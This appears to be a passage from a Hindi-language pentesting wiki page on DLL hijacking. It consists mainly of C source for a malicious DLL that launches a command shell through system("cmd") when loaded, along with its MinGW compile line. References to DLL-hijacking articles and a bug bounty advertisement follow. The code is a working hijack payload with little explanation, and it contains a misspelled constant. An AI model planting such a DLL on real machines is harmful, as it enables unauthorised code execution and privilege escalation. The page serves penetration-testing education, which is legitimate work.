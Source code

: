 ```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
break;
}
return TRUE;
}
```
## संदर्भ

* [https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e](https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e)
* [https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)

<figure><img src="../../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**बग बाउंटी टिप**: **साइन अप करें** **Intigriti** के लिए, एक प्रीमियम **बग बाउंटी प्लेटफार्म जो हैकर्स द्वारा, हैकर्स के लिए बनाया गया है**! आज ही [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) पर हमारे साथ जुड़ें, और **$100,000** तक की बाउंटी कमाना शुरू करें!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}